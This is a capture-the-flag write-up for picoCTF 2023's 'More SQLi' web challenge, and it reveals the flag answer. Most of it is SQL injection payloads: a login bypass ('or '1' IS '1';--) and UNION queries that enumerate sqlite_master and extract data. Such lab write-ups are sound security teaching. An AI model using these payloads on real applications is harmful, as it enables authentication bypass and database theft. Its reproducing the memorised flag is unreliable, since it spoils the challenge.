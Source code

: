 # More SQLi

```markdown
Tags: `picoCTF2023` `Web Exploitation` `sql`
```

## **Description**

Can you find the flag on this website.

Additional details will be available after launching your challenge instance.

<figure><img src="../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

```sql
Username: eiei
password: 'or '1' IS '1';--
```

```sql
SELECT id FROM users WHERE password = '1' IS '1'--' AND username = 'eiei'
```

## Welcome!

<figure><img src="../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

```sql
TEST' UNION SELECT 7, sqlite_version(), 3--
```

<figure><img src="../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

```sql
TEST' UNION SELECT name, sql, sqlite_version() from sqlite_master;--
```

<figure><img src="../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

```sql
TEST' UNION SELECT flag, null, null from more_table;--
```

<figure><img src="../.gitbook/assets/image (52).png" alt=""><figcaption><p>picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_3b0fca37}</p></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)

